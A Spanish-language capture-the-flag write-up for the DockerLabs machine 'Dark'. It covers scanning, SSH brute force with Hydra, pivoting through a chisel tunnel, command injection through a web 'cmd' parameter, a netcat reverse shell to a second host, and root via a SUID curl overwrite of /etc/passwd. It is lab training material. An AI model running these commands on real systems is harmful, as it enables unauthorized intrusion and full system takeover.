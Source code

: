 # Máquina Dark

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/Qft1jCjb#PlBLNl2jgetv_7jP9ycnsKnL4pabkeec55XWCXxbORk)

![imagen](https://github.com/user-attachments/assets/f4553d92-0867-4faf-bc13-b4422dbdd42d)


- **Nombre de la Máquina:** Dark
- **Sistema Operativo:** Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 10.10.10.2 y 20.20.20.3
- **Vulnerabilidades Explotadas:**
  - Fuerza bruta de credenciales SSH utilizando Hydra.
  - Pivoting a máquina 20.20.20.3
  - Explotación de un parámetro vulnerable en una página web.
  - Permisos SUID en curl.
  - Escalada de privilegios mediante la edición del archivo /etc/passwd.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 10.10.10.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/1e5327f1-4ade-4463-9277-7c2af2968486)

Nos reporta los puertos 22 y 80. Realizamos un escaneo más exhaustivo para ver qué servicios corren en cada puerto.

```bash
sudo nmap -p 22,80 -sCV 10.10.10.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/1a51ac2b-ac18-4cf0-8639-9f4af2b59bf6)

Como podemos extraer del reporte de nmap, disponemos de los servicios SSH y Apache.

En el puerto 80, vemos una página con un label y un botón en el que nos especifíca que ingresemos una URL.

![imagen](https://github.com/user-attachments/assets/84c3a062-4b39-483c-8935-be01097480fb)

Usaremos `gobuster` para ver ue directorios podemos encontrarnos en esta web.
```bash
gobuster dir -u 'http://10.10.10.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/user-attachments/assets/efe57f03-4831-4b2b-92b0-3244a6de2fe4)

Encontramos un directorio llamado `/info` el cuál si accedemos, pone lo siguiente:

![imagen](https://github.com/user-attachments/assets/2c8f6db7-3153-49b4-a95d-a64e7383d61d)

Tenemos el posible nombre de usuario **Toni**, vamos a urilizarlo para hacer fuerza bruta vía ssh.

### Fuerza bruta con hydra
Usaremos el nombre toni como parámetro de usuario y usaremos el rockyou como diccionario para la fuerza bruta.

```bash
hydra -l "toni" -P /usr/share/wordlists/rockyou.txt 10.10.10.2 ssh -t 64
```

![imagen](https://github.com/user-attachments/assets/ae82840a-7347-43d9-b407-b69d99b10609)

- Usuario: toni
- Password: banana

## Intrusión y Pivoting a máquina 20.20.20.3
Accedemos vía ssh al usuario toni, con el comando `hostname -I` podemos observar que tiene activa otra interfaz de red.

![imagen](https://github.com/user-attachments/assets/9a06c4fe-80eb-4720-a1f9-6e7db2448ccb)

No encuentro la manera posible de escalar privilegios a root en esta máquina, ni usando linpeas así que usaremos chisel para generar un tunel que redirija el tráfico de la máquina 20.20.20.3 a nuestra máquina atacante.
Nos pasamos chisel a la máquina 10.10.10.2 usando curl.

![imagen](https://github.com/user-attachments/assets/349c59d2-c61a-4ba3-bcca-2deeeeeaf305)

Ahora desde nuestra máquina nos pondremos en escucha con chisel.

```bash
./chisel_1.9.1_linux_arm64 server --reverse -p 443
```

![imagen](https://github.com/user-attachments/assets/e06e2a39-9845-4a58-a33c-0cb0f9449ee6)

Y en la máquina víctima con ip 10.10.10.2 crearemos el tunel para ver el tráfico de la red 20.20.20.3 desde nuestra ip 10.10.10.1:

```bash
./chisel client 10.10.10.1:443 R:socks
```

![imagen](https://github.com/user-attachments/assets/b6d572db-7854-433c-8346-6695230e4f9e)

![imagen](https://github.com/user-attachments/assets/7faff50f-2c2b-4a04-ab1e-cd8638e86b08)

Genial ya nos funciona como nos decía que tenia una web donde había subido la base de datos de la DGT etc…,vamos a configurar foxyproxy para acceder a la web de esa IP.

![imagen](https://github.com/user-attachments/assets/30beb3ea-1af9-4e44-ad89-c8d8c04bcb93)

Ahora podremos acceder al sitio web 20.20.20.3

![imagen](https://github.com/user-attachments/assets/84131226-e941-4a1d-9ab9-0f8664271249)

Usaremos Gobuster para encontrar posibles directorios dentro de esta web.

```bash
sudo gobuster dir -u 'http://20.20.20.3/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt --proxy socks5://127.0.0.1:1080
```

![imagen](https://github.com/user-attachments/assets/bf853816-8e9c-4561-9451-e10623589752)

No encontramos nada interesante que no hayamos visto ya, pero haciendo un poco de investigación me doy cuenta de que existe un parámetro llamado cmd en el código fuente de la página.

![imagen](https://github.com/user-attachments/assets/17db05d9-af26-4789-b3a8-6ce9c2dd97e1)

Por curiosidad introduzco el comando `whoami` y me dice `www-data`, así que ya tenemos la manera de mandarnos una reverse shell y trabajar más comodamente, pero la reverse shell deberemos mandarla a la máquina 20.20.20.2 que sería la del usuario toni.
Nos pondremos en escucha por el puerto 1010.

```bash
nc -nlvp 1010
```
```bash
nc 20.20.20.2 1010 -e /bin/bash
```

![imagen](https://github.com/user-attachments/assets/cd1d7326-51c0-4318-8ea1-401b3a3b261b)


![imagen](https://github.com/user-attachments/assets/dc2d405b-3da2-4ad5-8765-87136ef86c07)

## Escalada de privilegios en máquina 20.20.20.3
Encontramos que tenemos permisos SUID usando el comando curl, por lo que se me ocurre es copiar y pegar el `/etc/passwd` para modificarlo y quitarle la X a root.

![imagen](https://github.com/user-attachments/assets/a199db2d-9f62-44fb-87bc-0ef51f8b45e6)

```bash
cp /etc/passwd .
nano passwd
```

![imagen](https://github.com/user-attachments/assets/ad5c9361-d678-4ab9-90cd-4be580b5130f)

```bash
curl file:///tmp/passwd -o /etc/passwd
```

![imagen](https://github.com/user-attachments/assets/855b4c6b-b5f8-4f3c-9fd3-29c5f848e554)

Ahora tan solo ejecutando el comando `su root` nos convertiremos en usuario root y habremos completado la máquina al completo.

![imagen](https://github.com/user-attachments/assets/720a0580-3a66-48f1-a98c-66c7b582b677)

